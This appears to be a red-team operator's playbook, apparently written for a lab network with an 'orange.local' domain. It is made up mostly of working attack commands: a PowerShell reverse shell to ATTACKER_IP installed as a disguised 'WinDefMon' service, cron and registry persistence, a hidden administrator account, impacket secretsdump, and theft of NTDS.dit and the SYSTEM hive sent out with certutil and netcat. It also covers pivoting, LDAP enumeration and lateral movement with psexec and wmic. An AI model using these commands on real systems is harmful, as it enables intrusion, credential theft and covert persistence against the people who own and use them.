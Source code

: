 

## 🧨 Final Red Team Implant: `pan_os_comm.sh` with Stealthy Service

### 1. 🎯 Start the Listener on (ATTACKER)

```bash
nc -lvnp 63842
```

### 2. 📁 Create the Reverse Shell Script (ATTACKER)

```bash
sudo vim /tmp/pan_os_comm.py
```

```bash
cd /tmp
wget http://10.10.100.169/pan_os_comm.py
```
### 4. Change perms of python file (VICTIM)
Make it executable:
```bash
chmod +x /tmp/pan_os_comm.py
```
### 5. Add Crontab every minute (VICTIM)

```bash
(crontab -l 2>/dev/null; echo '* * * * * /bin/systemctl start pan_os_comm.service >/dev/null 2>&1') | crontab -
```
---
# Attempt to pivot through firewall if routing/NAT is enabled
- sshuttle/reverse SOCKS proxy (chisel, socat) to tunnel traffic into the internal 
network.


---










# Phase 3: Target Discovery Inside Orange Space
Assuming pivot success to internal hosts:
#### Scan internal subnets for DC or LDAP
```bash
nmap -p 389,445,88,135,139,389,636,3268,3269 -sV -Pn 172.20.0.0/16
```

- Look for the Domain Controller (likely in orange-servers or orange-users).





---



# Phase 4: Credential Access (via LDAP, SAM/NTDS)
- Once a DC is identified (e.g., 172.20.2.X), you can:
	- 88, 389
- Enumerate via LDAP (LOLBAS):
```bash
ldapsearch -x -h 172.20.2.X -b "dc=orange,dc=local"
```
If admin rights are obtained, dump credentials:
1. Use secretsdump from Impacket
```bash
impacket-secretsdump 'orange.local/adminuser:password@172.20.2.X'
```
2. If on host with NTDS.dit access:
	Copy ntds.dit and SYSTEM hive for offline cracking
```bash
copy C:\Windows\NTDS\ntds.dit D:\stolen\
reg save hklm\system D:\stolen\system.hiv
```
Transfer those over SMB/certutil:
```bash
certutil -urlcache -f http://<attacker_ip>/nc.exe nc.exe
nc.exe <attacker_ip> 4444 < ntds.dit
nc.exe <attacker_ip> 4445 < system.hiv
```
Then parse locally:
```bash
secretsdump.py -ntds ntds.dit -system system.hiv LOCAL
```


---


# Phase 5: Lateral Movement and Persistence
Use Admin Shares:
```bash
wmic /node:172.20.0.X process call create "cmd.exe /c whoami"
psexec.py orange.local/adminuser@172.20.0.X
```
### Create a hidden user (LOLBAS):
```bash
net user stealthyUser P@ssw0rd! /add
net localgroup administrators stealthyUser /add
```
## Persist via Scheduled Task or Service:

```bash
schtasks /create /tn "Updater" /tr "powershell -NoP -NonI -W Hidden -Enc <payload>" /sc minute /mo 15
```
## 🔧 Step-by-Step: Install `WinDefMon` Reverse Shell Service on DC

### 1. 📜 **Reverse Shell Payload**

Save this script as `C:\ProgramData\winmon.ps1` on the **Domain Controller**:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",9999)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

---
### 2. 🔐 **Base64 Encode It**

```powershell
$payload = Get-Content -Raw C:\ProgramData\winmon.ps1
$bytes = [System.Text.Encoding]::Unicode.GetBytes($payload)
$encoded = [Convert]::ToBase64String($bytes)
```

---
### 3. ⚙️ **Create the Service as WinDefMon**

```powershell
$cmd = "powershell.exe -NoP -W Hidden -Enc $encoded"
sc.exe create WinDefMon binPath= "$cmd" start= auto
sc.exe start WinDefMon
```

💡 *Use quotes properly after `binPath=` and ensure the encoded string doesn't break on multiple lines if scripting.*

---
### 4. 🧪 **Start Your Listener**

```bash
nc -lvnp 9999
```
---

Or use registry run keys:

```bash
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t 

REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\Users\Public\rev.ps1"
```

Phase 6: OT Network Target Prep (Later Stage)







# Teardown
## 🧼 Teardown (DC)

```powershell
sc stop WinDefMon
sc delete WinDefMon
Remove-Item C:\ProgramData\winmon.ps1 -Force
```
